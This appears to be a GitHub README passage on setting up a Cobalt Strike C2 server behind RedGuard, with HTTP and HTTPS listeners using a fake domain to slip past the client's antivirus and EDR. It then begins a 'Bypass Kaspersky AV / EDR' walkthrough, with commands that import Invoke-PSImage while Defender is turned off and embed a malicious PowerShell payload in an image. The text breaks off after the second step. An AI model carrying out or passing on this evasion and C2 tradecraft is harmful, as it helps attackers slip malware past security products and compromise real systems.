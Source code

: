 Once the setup is done, you will see something like this.

This is the default setting, you need to change your setting now in and reload the C2.

```
/root/.RedGuard_CobaltStrike.ini
```

<h2 align="center"></h2>

<img src="./img2/RedGuard_configuration.png" />

<p align="center">


Now let's create and configure our listener ( https + http ) with C2, and make sure to have your own "FAKE" domain, as per your client AV, EDR.

http listener ( Port 80 ---> 8080 ).
https listener ( port 443 --> 4433 ).

<h2 align="center"></h2>

<img src="./img2/Listner_https_kaspersky.png" />

<p align="center">


Once you done, you can check the C2 status.

<h2 align="center"></h2>

<img src="./img2/forward_scanners_to_kaspersky_website.png" />

<p align="center">


### Bypass Kaspersky AV / EDR 12.27.2023

Well, most AV / EDR companies the important part for them to disable powershell ! the power of any shell in windows... and today i will share a public "Bypass powershell" script which will work with you in 4-5 steps.

We all hear about Invoke-Image which hide the malicious code (powershell.ps1) inside image (1.jpg), but now we will work on duplicated the encryption of the image.. i will not explain more about, the most important to import the Invoke-PSImage script in your windows lab.

1) open powershell and import Invoke-PSImage.ps1 into your powershell ( make sure AV and Windows Defender is turn off while importing the shellcode ):

```
Import-Module .\Invoke-PSImage.ps1
```

2) generate your malicious image

```
Invoke-PSImage -Script .\payload.ps1 -Out .\1.png -Image .\x.jpg -Web
```

<h2 align="center"></h2>
